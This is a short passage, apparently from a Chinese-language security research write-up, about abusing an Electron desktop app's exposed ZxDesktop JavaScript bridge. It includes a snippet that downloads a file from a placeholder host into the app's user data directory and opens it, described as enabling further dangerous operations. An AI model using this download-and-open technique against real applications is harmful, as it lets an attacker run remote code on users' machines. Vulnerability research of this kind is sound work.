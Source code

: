 [![](assets/1707954600-4473287d82c9440d77b01c20fa6f40e1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240203021617-2889eac8-c1f7-1.png)

有 dbPath、userDataPath 这两个属性，都是指向数据目录，拥有这些我们就可以下载地址 拼接文件路径，大致思路如下

```bash
var a = ZxDesktop; 
var b = a.require("File");
b.save({"url": "http://xxx/test.txt","name": "test.txt","path": "","chunkSize": "","size":
"","fileData": ""})
b.open(a.require("System").userDataPath + "/test.txt");
```

这样其实就可以达成更多危险的操作了

### Summary

在现代 electron 应用程度广泛的今天，我们可以更多关注本身和业务逻辑层，说不定会有不一样的收获
